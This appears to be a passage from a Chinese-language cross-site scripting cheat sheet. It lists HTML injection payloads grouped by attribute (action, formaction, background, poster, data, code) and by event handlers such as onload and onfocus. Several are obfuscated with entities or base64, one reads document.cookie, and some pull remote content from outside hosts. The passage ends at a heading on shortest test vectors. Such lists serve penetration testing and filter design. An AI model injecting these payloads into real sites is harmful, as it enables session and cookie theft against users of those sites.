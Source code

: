 利用`<form，<isindex`等标签中的 action 属性执行 javascript

```
<form action="Javascript:alert(1)"><input type=submit>
<isindex action="javascript:alert(1)" type=image>
<isindex action=j&Tab;a&Tab;vas&Tab;c&Tab;r&Tab;ipt:alert(1) type=image>
<isindex action=data:text/html, type=image>
<formaction='data:text&sol;html,&lt;script&gt;alert(1)&lt/script&gt'><button>CLICK 
```

#### formaction 属性

```
<isindexformaction="javascript:alert(1)" type=image>
<input type="image" formaction=JaVaScript:alert(0)>
<form><button formaction=javascript&colon;alert(1)>CLICKME 
```

#### background 属性

```
<table background=javascript:alert(1)></table> // 在 Opera 10.5 和 IE6 上有效 
```

#### poster 属性

```
<video poster=javascript:alert(1)//></video> // Opera 10.5 以下有效 
```

#### data 属性

```
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<object/data=//goo.gl/nlX0P? 
```

#### code 属性

```
<applet code="javascript:confirm(document.cookie);"> // Firefox 有效
<embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always> 
```

#### 事件触发

```
<svg/onload=prompt(1);>
<marquee/onstart=confirm(2)>/
<body onload=prompt(1);>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video><source onerror="javascript:alert(1)"> 
```

#### 最短的测试向量
